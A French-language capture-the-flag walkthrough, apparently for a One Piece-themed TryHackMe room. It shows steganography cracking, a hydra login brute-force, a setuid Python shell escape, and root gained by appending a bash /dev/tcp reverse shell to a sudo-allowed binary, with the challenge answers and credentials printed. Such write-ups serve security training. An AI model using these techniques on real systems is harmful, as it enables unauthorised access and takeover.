

**What is the name of the 2nd Emperor you meet navigating the Apache Sea?**

Sur la nouvelle page on a le nom du deuxième empéreur qui : Kaido of the Beasts

Sur le site on trouve 2 images avec une avec le nom de kaido.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://onepiece.thm/images/kaido.jpeg -nv 
2021-09-08 09:31:47 URL:http://onepiece.thm/images/kaido.jpeg [89303/89303] -> "kaido.jpeg" [1]
tim@kali:~/Bureau/tryhackme/write-up$ stegseek kaido.jpeg /usr/share/wordlists/rockyou.txt 
StegSeek version 0.5
Progress: 2.64% (3694776 bytes)           

[i] --> Found passphrase: "imabeast"
[i] Original filename: "kaido_login.txt"
[i] Extracting to "kaido.jpeg.out"
tim@kali:~/Bureau/tryhackme/write-up$ cat kaido.jpeg.out 
Username:K1ng_0f_th3_B3@sts
```

On brutforce la mot de passe pour extraire un fichier caché. 
On trouve un nom utilisateur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://onepiece.thm/0n1g4sh1m4.php -s | grep name
            <label for="user">Username: </label>
            <input type="text" id="user" name="user"><br>
            <input type="password" id="password" name="password"><br>
	    <input type="submit" value="Login" name="submit_creds">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit_file">

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l K1ng_0f_th3_B3@sts -P /usr/share/wordlists/rockyou.txt onepiece.thm  http-post-form "/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR" -t 16 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-08 09:43:37
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://onepiece.thm:80/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR
[STATUS] 2578.00 tries/min, 2578 tries in 00:01h, 14341821 to do in 92:44h, 16 active
[STATUS] 2688.67 tries/min, 8066 tries in 00:03h, 14336333 to do in 88:53h, 16 active
[80][http-post-form] host: onepiece.thm   login: K1ng_0f_th3_B3@sts   password: thebeast
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-08 09:50:11

```

On récupère le nom des champs et de l'activation, on prend aussi le message d'erreur.  
On configure hydra et on brute force le mot de passe.  

Les idendifiants sont : 
Nom : K1ng_0f_th3_B3@sts   
Mot de passe : thebeast   



Après avoir mis les bons idneitifiants on trouve une chaîne encodées et phrase qui dit que le chemin est unspecified.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://onepiece.thm/unspecified
The last Road Poneglyphe: FUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LIKFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBOFUWS2LIKFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LI=
```

Sur la page on trouve une chaîne encodée.  

il faut maintenant mettre bout à bout toutes les chaînes encodées road poneglyphe.  

**What is the hidden message of the 4 Road Poneglyphs?**



On décode les 4 poneglyphs qui sont encodés en base32 -\> morse -\> binaire -\> héxadécimal -\> base58 -\> base64  

On trouve la réponse : M0nk3y_D_7uffy:1_w1ll_b3_th3_p1r@t3_k1ng!  

Qui sont des identifiants.     

## Task 3 Laugh Tale ##

**Who is on Laugh Tale at the same time as Luffy?**

```bash
im@kali:~/Bureau/tryhackme/write-up$ ssh M0nk3y_D_7uffy@onepiece.thm
The authenticity of host 'onepiece.thm (10.10.200.176)' can't be established.
ECDSA key fingerprint is SHA256:zOHT7dbvRJlqSe19yomTmKvQHVgvwDLd7X8gGWScz84.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'onepiece.thm,10.10.200.176' (ECDSA) to the list of known hosts.
M0nk3y_D_7uffy@onepiece.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-041500-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


18 packages can be updated.
13 updates are security updates.

Last login: Fri Aug 14 15:23:58 2020 from 192.168.1.7
M0nk3y_D_7uffy@Laugh-Tale:~$ ls
laugh_tale.txt
M0nk3y_D_7uffy@Laugh-Tale:~$ cat laugh_tale.txt 
Finally, we reached Laugh Tale.
All is left to do is to find the One Piece.
Wait, there is another boat in here.
Be careful, it is the boat of Marshall D Teach, one of the 4 Emperors. He is the one that led your brother Ace to his death.
You want your revenge. Let's take him down !
```

On se connecte avec les identifiants trouvrés.   
On trouve un fichier laugh_tale et on le lit.   
On trouve la réponse qui est Marshall D Teach.   

**What allowed Luffy to win the fight?**

```bash
M0nk3y_D_7uffy@Laugh-Tale:~$ find / -type f -perm -4000 2>/dev/null
...
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gomugomunooo_king_kobraaa
/usr/bin/chfn
/usr/bin/arping
/usr/sbin/pppd
/usr/lib/snapd/snap-confine
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

On recherche les fichiers setuid.  
gomugomunooo_king_kobraaa me semble pas un fichier standard du système.  

```bash
M0nk3y_D_7uffy@Laugh-Tale:~$ file /usr/bin/gomugomunooo_king_kobraaa 
/usr/bin/gomugomunooo_king_kobraaa: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=058d487181afb9f02ad5acc9dee2693452c137b7, stripped

M0nk3y_D_7uffy@Laugh-Tale:~$ ls -al /usr/bin/gomugomunooo_king_kobraaa 
-rwsr-xr-x 1 7uffy_vs_T3@ch teach 4526456 Jul 17  2020 /usr/bin/gomugomunooo_king_kobraaa
M0nk3y_D_7uffy@Laugh-Tale:~$ /usr/bin/gomugomunooo_king_kobraaa 
Python 3.6.9 (default, Jul 17 2020, 12:50:27) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 

M0nk3y_D_7uffy@Laugh-Tale:~$ /usr/bin/gomugomunooo_king_kobraaa -c 'import os; os.execl("/bin/bash", "sh", "-p")'
sh-4.4$ whoami
7uffy_vs_T3@ch
```

On remarque gomugomunooo_king_kobraaa c'est en faite le programme python.   
On lance un shell et on obtient un shell avec les droit de 7uffy_vs_T3@ch.   

```bash
sh-4.4$ ls /home/
luffy  teach
sh-4.4$ cd /home/teach/
sh-4.4$ ls -al
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .
drwxr-xr-x  4 root           root  4096 Jul 26  2020 ..
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14  2020 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26  2020 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26  2020 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .gnupg
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26  2020 .ICEauthority
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .local
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26  2020 luffy_vs_teach.txt
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26  2020 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26  2020 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26  2020 .sudo_as_admin_successful

sh-4.4$ cat .password.txt
7uffy_vs_T3@ch:Wh0_w1ll_b3_th3_k1ng?

sh-4.4$ cat luffy_vs_teach.txt
This fight will determine who can take the One Piece and who will be the next Pirate King.
These 2 monsters have a matchless will and none of them can let the other prevail.
Each of them have the same dream, be the Pirate King.
For one it means: Take over the World.
For the other: Be the freest man in the World.
Each of their hit creates an earthquake felt on the entire island.
But in the end, Luffy thanks to his willpower won the fight.
Now, he needs to find the One Piece.

```

On trouve un répertoire utilisateur teach et dedant des fichiers :    

luffy_vs_teach.txt on trouve la réponse qui est : Willpower   
.password.txt on trouve un mot de passe qui est : Wh0_w1ll_b3_th3_k1ng?   

```bash
sh-4.4$ su 7uffy_vs_T3@ch
Password: 
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo -l
[sudo] password for 7uffy_vs_T3@ch: 
Matching Defaults entries for 7uffy_vs_T3@ch on Laugh-Tale:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User 7uffy_vs_T3@ch may run the following commands on Laugh-Tale:
    (ALL) /usr/local/bin/less
```

Je me connecte avec le mot de passe sur le compte de 7uffy_vs_T3@ch.   
On regarde la configuration sudo on voit que l'on exécuter less avec sudo.   

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo /usr/local/bin/less /etc/profile
Sorry, I can't tell you where is the One Piece
```

On essaie d'avoir un shell root avec less mais ça ne fonctionne pas.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute port 1234 pour se connecter au reverse shell.  

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$  echo 'bash -i >& /dev/tcp/10.9.228.66/1234 0>&1' >> /usr/local/bin/less
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo /usr/local/bin/less
Sorry, I can't tell you where is the One Piece
```

On écrase less par notre propre reverse shell.    
Maintenant on peut exécuter notre reverse shell avec les droits root.  

**What is the One Piece?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.200.176] 42434
root@Laugh-Tale:~# grep -iRl "One piece" /home /usr 2> /dev/null
grep -iRl "One piece" /home /usr 2> /dev/null
/home/teach/.bash_history
/home/teach/luffy_vs_teach.txt
/home/luffy/laugh_tale.txt
/usr/src/linux-hwe-5.4-headers-5.4.0-42/include/linux/scatterlist.h
/usr/src/linux-hwe-5.4-headers-5.4.0-42/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-hwe-5.4-headers-5.4.0-42/mm/Kconfig
/usr/src/linux-headers-4.15.0-041500/include/linux/scatterlist.h
/usr/src/linux-headers-4.15.0-041500/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-headers-4.15.0-041500/mm/Kconfig
/usr/src/linux-headers-4.15.0-041500-generic/include/linux/scatterlist.h
/usr/src/linux-headers-4.15.0-041500-generic/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-headers-4.15.0-041500-generic/mm/Kconfig
/usr/bin/gomugomunooo_king_kobraaa
/usr/share/perl/5.26.1/Archive/Tar.pm
/usr/share/perl/5.26/Archive/Tar.pm
/usr/share/libreoffice/help/en-US/scalc.jar
/usr/share/mysterious/on3_p1ec3.txt
/usr/share/perl5/HTML/Tree/AboutTrees.pod
/usr/local/bin/less
/usr/lib/python3/dist-packages/janitor/plugincore/__pycache__/cruft.cpython-36.pyc
/usr/lib/python3/dist-packages/janitor/plugincore/cruft.py
/usr/lib/python2.7/_pyio.py
/usr/lib/python2.7/config-x86_64-linux-gnu/libpython2.7.so
/usr/lib/python3.6/config-3.6m-x86_64-linux-gnu/libpython3.6m.so
/usr/lib/python3.6/config-3.6m-x86_64-linux-gnu/libpython3.6.so
/usr/lib/python3.6/__pycache__/_pyio.cpython-36.pyc
/usr/lib/python3.6/_pyio.py
/usr/lib/x86_64-linux-gnu/libpython2.7.so.1.0
/usr/lib/x86_64-linux-gnu/libpython3.6m.so.1.0
/usr/lib/x86_64-linux-gnu/libpython2.7.so.1
/usr/lib/x86_64-linux-gnu/libpython3.6m.so.1
/usr/lib/x86_64-linux-gnu/perl5/5.26/HTML/Parser.pm

root@Laugh-Tale:~# cat /usr/share/mysterious/on3_p1ec3.txt
cat /usr/share/mysterious/on3_p1ec3.txt
One Piece: S3cr3ts_0f_tH3_W0rlD_&_0f_Th3_P@st$
```

On obtient un shell avec les droits root.   
On faire un recherche pour trouver dans les fichiers le patern One Piece.   
On trouve un fichier que se démarque qui est on3_p1ec3.txt.  
La réponse est :  S3cr3ts_0f_tH3_W0rlD_&_0f_Th3_P@st$    